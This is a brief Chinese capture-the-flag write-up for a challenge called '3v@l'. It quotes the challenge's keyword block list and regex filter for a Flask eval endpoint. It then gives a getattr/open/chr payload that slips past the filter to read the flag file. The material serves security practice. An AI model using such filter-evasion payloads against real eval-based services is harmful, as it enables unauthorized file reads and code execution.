


# 3v@l



發現有註解了的規則：

- 不能用 `os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind`
- 使用正規表達式過濾，防止目錄遍歷與十六進位編碼

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

考慮 Python 內建函式操作：

- `open` 與 `read` 這些是內建函式，不在禁止關鍵字內
- 避開 `.` 使用，例如用 `getattr()`

```python
getattr(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)), 'read')()
```

得到 flag


